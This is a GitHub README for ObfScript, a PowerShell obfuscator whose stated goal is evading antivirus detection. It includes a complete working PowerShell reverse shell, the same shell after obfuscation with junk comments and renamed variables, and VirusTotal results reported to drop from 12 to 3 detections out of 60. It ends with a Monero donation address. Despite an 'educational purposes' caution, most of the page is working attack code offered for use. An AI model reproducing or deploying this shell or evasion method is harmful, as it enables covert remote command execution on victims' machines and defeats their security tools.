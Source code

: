 # ObfScript: Windows Powershell Script Obfuscator
ObfScript is a windows powershell script obfuscator with the goal of avoiding threat detection by antiviruses. I got the idea from this article: https://github.com/t3l3machus/PowerShell-Obfuscation-Bible
> [!CAUTION]
> this program is only for educational purposes

> [!WARNING]
> this program is not tested on a large number of samples and in some cases it may break your scripts. but I'm trying to fix some issues

## Usage 
example of obfscript usage:
```
python obfscript.py --add-comment --negetropy 1 --change-value --size 2000  --input  example/reverse_shell.ps1 --out example/reverse_shell.obf.ps1
```
### flags:

#### -i, --input \<input-file\>
specifies the input file
#### -o, --out \<output-file\>
specifies the output file
#### -s, --size \<size\>
specifies the size of output file in bytes<br>
warning: the output file size is not accurate but it tries to get close to it as much as possible
#### -c, --add-comment 
adds random comment to output script
#### -v, --change-value
changes $True, $False and $null values to obfuscated form
#### -n, --negetropy \<negetropy\>
the higher the negetropy the lower the antropy. example:<br>
this is an obfuscted object name with size of 26 and n=1:
```powershell
$HRoNRKOroehmDyvzqhbzyhCltU = "something"
```
now this this is an obfuscted object name with size of 26 and n=5:
```powershell 
$LLLLLdddddHHHHHHHHHHKKKKKD = "something" 
```
## Example 
this is a simple reverse shell in powershell script:
```powershell
$socket = new-object System.Net.Sockets.TcpClient('127.0.0.1', 3333);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
	$writer.Write("> ");
	$writer.Flush();
	$read = $null;
	while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}	
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$out = $out.split(' ')
	        $res = [string](&$out[0] $out[1..$out.length]);
		if($res -ne $null){ $writer.WriteLine($res)}
	}
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```
let's scan it with [virustotal](https://www.virustotal.com/)<br>
![before obfuscation](https://raw.githubusercontent.com/Null-byte-00/ObfScript/main/before_obf.png)<br>
as you can see 12 out of 60 antiviruses could detect the malware<br>
now let's use ObfScript to obfuscate it
```
python.exe obfscript.py  --add-comment --negetropy 5 --change-value --size 2000  --input  example/reverse_shell.ps1 --out example/reverse_shell.obf.ps1
```
this is the obfuscated output we got:
```powershell
$VVVVVUUUUUTTTTTIIIIIeeeeeC = new-object System.Net.Sockets.TcpClient('127.0.0.1', 3333)<#WWWWWIIIIIEEEEE#>
<#jjjjjooooobbbbb#>
if($VVVVVUUUUUTTTTTIIIIIeeeeeC -eq $(171 -as [System.DBNull])){exit 1}<#TTTTTGGGGGrrrrr#>
$TTTTTWWWWWFFFFFvvvvvgggggN = $VVVVVUUUUUTTTTTIIIIIeeeeeC.GetStream()<#jjjjjoooooccccc#>
<#fffffVVVVVppppp#>
$uuuuurrrrrGGGGGNNNNNPPPPPY = new-object System.IO.StreamWriter($TTTTTWWWWWFFFFFvvvvvgggggN)<#MMMMMdddddLLLLL#>
<#HHHHHHHHHHjjjjj#>
$lllllhhhhhkkkkkaaaaabbbbbv = new-object System.Byte[] 1024<#RRRRRWWWWWhhhhh#>
<#YYYYYpppppeeeee#>
$oooooPPPPPQQQQQnnnnnvvvvvY = new-object System.Text.AsciiEncoding<#iiiiieeeeeTTTTT#>
<#yyyyyfffffmmmmm#>
do{<#uuuuuwwwwwqqqqq#>
	$uuuuurrrrrGGGGGNNNNNPPPPPY.Write("> ")<#lllllIIIIIXXXXX#>
<#EEEEEvvvvvCCCCC#>
	$uuuuurrrrrGGGGGNNNNNPPPPPY.Flush()<#pppppBBBBBPPPPP#>
<#GGGGGIIIIIUUUUU#>
	$OOOOOuuuuuwwwwwoooooFFFFFS = $(29 -as [void])<#zzzzzgggggQQQQQ#>
<#LLLLLYYYYYIIIII#>
	while($TTTTTWWWWWFFFFFvvvvvgggggN.DataAvailable -or ($OOOOOuuuuuwwwwwoooooFFFFFS = $TTTTTWWWWWFFFFFvvvvvgggggN.Read($lllllhhhhhkkkkkaaaaabbbbbv, 0, 1024)) -eq $(function YNTBgmPDj {})){}	<#KKKKKrrrrrKKKKK#>
	$YYYYYXXXXXLLLLLTTTTTuuuuud = $oooooPPPPPQQQQQnnnnnvvvvvY.GetString($lllllhhhhhkkkkkaaaaabbbbbv, 0, $OOOOOuuuuuwwwwwoooooFFFFFS).Replace("`r`n","").Replace("`n","")<#kkkkkIIIIIEEEEE#>
<#ooooolllllWWWWW#>
	if(!$YYYYYXXXXXLLLLLTTTTTuuuuud.equals("exit")){<#iiiiikkkkkHHHHH#>
		$YYYYYXXXXXLLLLLTTTTTuuuuud = $YYYYYXXXXXLLLLLTTTTTuuuuud.split(' ')<#ttttthhhhhPPPPP#>
	        $tttttNNNNNooooorrrrrBBBBBY = [string](&$YYYYYXXXXXLLLLLTTTTTuuuuud[0] $YYYYYXXXXXLLLLLTTTTTuuuuud[1..$YYYYYXXXXXLLLLLTTTTTuuuuud.length])<#TTTTTeeeeeMMMMM#>
<#eeeeeWWWWWSSSSS#>
		if($tttttNNNNNooooorrrrrBBBBBY -ne $(138 -as [System.DBNull])){ $uuuuurrrrrGGGGGNNNNNPPPPPY.WriteLine($tttttNNNNNooooorrrrrBBBBBY)}<#cccccdddddlllll#>
	}<#VVVVVdddddWWWWW#>
}While (!$YYYYYXXXXXLLLLLTTTTTuuuuud.equals("exit"))<#kkkkkPPPPPNNNNN#>
$uuuuurrrrrGGGGGNNNNNPPPPPY.close()<#tttttwwwwwfffff#>
$VVVVVUUUUUTTTTTIIIIIeeeeeC.close()<#YYYYYiiiiirrrrr#>
```
let's scan it again with virustotal<br>
![before obfuscation](https://raw.githubusercontent.com/Null-byte-00/ObfScript/main/after_obf.png)<br>
now only 3 out of 60 antiviruses could detect our malware

## donation
If you found this useful and would like to support, you can send donations to this XMR address: 
43EfpCz23b5WPgzaw6UVnF9KsbvueFUumTuk3yMJ8acQbPPFoxgHfq6LE2qD8gNfR3j6Fzc4oGvXRCHvvfmdsYEvPtUXK2v
